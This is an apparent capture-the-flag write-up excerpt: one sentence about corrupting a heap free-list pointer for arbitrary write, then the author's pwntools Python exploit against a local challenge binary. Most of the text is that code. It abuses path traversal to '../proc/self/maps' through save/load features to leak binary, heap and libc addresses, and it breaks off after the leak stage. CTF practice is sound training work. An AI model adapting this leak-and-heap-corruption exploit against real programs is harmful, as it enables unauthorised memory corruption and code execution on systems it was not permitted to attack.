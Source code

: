 Now all I have to do is corrupt the fd pointer, and boom. Arbitrary write.

Here's my full exploit:
```python


from pwn import *

p = process('./ziel')

def next():
  p.sendlineafter('>', '1')

def spawn(x_pos, y_pos, identifier, x_vel, y_vel, desc_len, desc):
  p.sendlineafter('>', '2')
  p.sendlineafter('X:', str(x_pos))
  p.sendlineafter('Y:', str(y_pos))
  p.sendlineafter('ID:', str(identifier))
  p.sendlineafter('X:', str(x_vel))
  p.sendlineafter('Y:', str(y_vel))
  p.sendlineafter('length:', str(desc_len))
  p.sendlineafter('Description:', str(desc))

def kill(x_pos, y_pos):
  p.sendlineafter('>', '3')
  p.sendlineafter('X:', str(x_pos))
  p.sendlineafter('Y:', str(y_pos))

def save():
  p.sendlineafter('>', '4')

def load():
  p.sendlineafter('>', '5')

def restart():
  p.sendlineafter('>', '6')


p.sendlineafter('code:', '')
p.sendlineafter('Width:', '40')
p.sendlineafter('Height:', '1')


# leak maps
spawn(19, 0, 'd', 0, 0, 0x40-0xb, 'a'*(0x40-0xb))
kill(19, 0)
restart()

p.sendlineafter('code:', 'asdf')
p.sendlineafter('Width:', '128')
p.sendlineafter('Height:', '16')

maps = '../proc/self/maps'
for i in range(len(maps)):
  spawn(i, 0, maps[i], 0, 0, 1, 'a')

save()
load()
next()

p.recvuntil('|')
binary_leak = int(p.recvuntil('-')[:-1], 16)
heap_leak = int(p.recvuntil('[heap]')[-83:-70], 16)
libc_leak = int(p.recvuntil('-')[:-1], 16)
```